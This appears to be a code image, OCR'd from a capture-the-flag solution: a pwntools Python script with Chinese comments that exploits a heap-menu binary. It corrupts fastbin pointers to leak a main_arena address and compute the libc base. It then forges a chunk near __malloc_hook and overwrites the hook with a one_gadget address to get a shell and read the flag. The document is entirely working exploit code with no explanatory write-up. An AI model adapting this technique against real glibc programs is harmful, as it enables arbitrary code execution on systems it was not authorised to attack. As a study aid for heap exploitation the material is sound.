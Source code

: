    ```python
   add(0x10,b'a')    #0
   add(0x10,b'b')    #1 作为修改fd，指向chunk4的牺牲品
   add(0x10,b'c')    #2 用来修改fd，指向chunk4
   add(0x10,b'd')    #3 用来恢复chunk4的size字段
   add(0x80,b'e')    #4 small chunk用来得到main_arena地址
   
   free(1)
   free(2)
   
   #修改chunk2的fd指针，指向chunk4
   payload = p64(0)*3 + p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
   fill(0,payload)
   
   #修改chunk4的size字段，申请时绕过fastbin的检查
   payload = p64(0)*3+p64(0x21)
   fill(3,payload)
   
   #第二次申请chunk4（2）
   add(0x10,b'f')    #1
   add(0x10,b'g')    #2 与4一起指向small chunk
   #将chunk4的size字段改回来
   payload = p64(0)*3 + p64(0x91)
   fill(3,payload)
   
   
   #防止chunk4释放后，进入top chunk
   add(0x10,b'h')  #5 
   free(4)
   
   #由于2被释放，所以用4来输出其中的main_arena，如果前面释放的是chunk2，那就用chunk4打印
   dump(2)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   execve_addr  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))
   
   #申请一个size字段为0x71的chunk，再释放掉，如何修改其fd值，指向malloc_hook前面size为0x7f的空间伪造chunk（malloc_hook-0x23）
   add(0x60,b'6')  #4
   free(4)
   payload = b"AAAAAAAA"*3 + p64(0x71) + p64(malloc_hook-0x23)
   fill(3,payload)
   
   
   #将伪造的chunk申请回来
   add(0x60,b't')  #4
   add(0x60,b'j')  #6
   
   #覆盖malloc_hook指向execve_addr
   payload = b"AAAAAAAA"*2+b"aaa"+p64(execve_addr)
   fill(6,payload)
   
   #调用evecve("/bin/sh")
   add(0x100,b'lzl')
   p.sendline(b"cat flag")
   p.interactive()
   ```